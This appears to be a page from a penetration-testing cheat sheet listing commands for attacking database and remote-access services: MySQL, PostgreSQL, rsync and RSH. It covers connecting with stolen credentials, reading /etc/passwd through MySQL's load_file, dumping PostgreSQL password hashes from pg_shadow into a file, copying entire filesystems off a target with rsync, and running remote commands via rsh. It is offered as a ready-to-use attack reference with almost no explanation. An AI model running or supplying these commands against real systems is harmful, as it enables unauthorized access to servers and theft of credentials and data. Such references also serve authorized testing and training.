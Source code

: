 #### MySQL
- **Connect to a remote MySQL instance if credentials are known:**
	```bash
	mysql -u <username> -h <target_ip> -p
	```
- **Check the user's privileges on the MySQL server:**
	```bash
	mysql -e "SHOW GRANTS FOR <username>@<target_host>"
	```
- **List available databases on the remote MySQL server:**
	```bash
	mysql -e "SHOW DATABASES"
	```
- **Exploit MySQL's ability to read files on the remote system:**
	```bash
	mysql -e "SELECT load_file('/etc/passwd')"
	```

#### PostgreSQL
- **Connect to a remote PostgreSQL server using stolen credentials:**
	```bash
	psql -h <target_ip> -U <username>
	```
- **List all databases on the remote PostgreSQL server:**
	```sql
	\list
	```
- **Dump PostgreSQL user credentials to a file on the server:**
	```sql
	COPY (SELECT passwd FROM pg_shadow) TO '/tmp/shadow'; 
	```

#### Rsync
- **Copy files from the target machine via rsync (requires rsync to be configured):**
	```bash
	rsync <target_ip>::module /destination
	```
- **Synchronize directories from a remote system:**
	```bash
	rsync -avz <target_ip>::/ <local_directory>
	```
- **Use a password file to authenticate and sync files via rsync:**
	```bash
	rsync --password-file=/path/to/password-file <target_ip>::/ <local_directory>
	```

#### RSH
- **Remotely execute commands on the target host using RSH (if configured):**
	```bash
	rsh <target_host> -l <username>
	```
- **Log into the target host using RSH (if configured):**
	```bash
	rlogin <target_host> -l <username>
	```
